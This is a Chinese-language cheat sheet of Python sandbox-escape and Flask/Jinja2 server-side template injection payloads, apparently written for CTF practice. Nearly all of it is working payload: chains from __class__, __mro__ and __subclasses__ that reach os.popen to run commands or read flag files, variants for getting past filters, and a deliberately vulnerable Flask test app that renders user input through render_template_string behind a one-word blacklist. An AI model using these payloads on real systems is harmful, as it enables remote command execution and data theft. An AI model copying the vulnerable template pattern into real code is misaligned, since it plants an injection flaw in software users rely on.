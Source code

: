 ```python
# pty
pty.spawn('ls')
pty.os.system('ls')
```

**文件操作姿势扩展**

`open('flag.txt').read()`

```python
file('1.txt').read()
types.FileType('1.txt').read()
```

`commands.getoutput('flag')`

**基类获取思路扩展**

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用
```

针对Flask还可以从config等寻找可利用模块

```python
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
self.__class__.__bases__ # (<type 'object'>,)
get_flashed_messages.__globals__
url_for.__globals__
lipsum.__globals__
x.__init__.__globals__
```

# Bypass

下面都是我本地测试过的一些姿势(windows+Flask+python2.x)

先列出一些常见payload,根据环境不同可能还会有差别

> 利用os.system执行命令返回的只有0/1 所以这里用popen

```python
{{ config.__class__.__init__.__globals__['os'].popen('flag').read() }}
{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('type flag').read()}}
().__class__.__base__.__subclasses__()[40]('flag').readlines()
{{().__class__.__mro__[1].__subclasses__()[72].__init__.__globals__['os'].popen('type flag').read() }}
```

测试代码

```python
from flask import Flask, render_template_string, request
app = Flask(__name__)
@app.route('/', methods=['GET', 'POST'])
def index():
    blacklist = ['class']
    name = request.args.get('name')
    for i in blacklist:
        if i in name.lower():
            return 'sb hacker!'
    return render_template_string(name)
if __name__ == '__main__':
    app.run(debug=True)
```

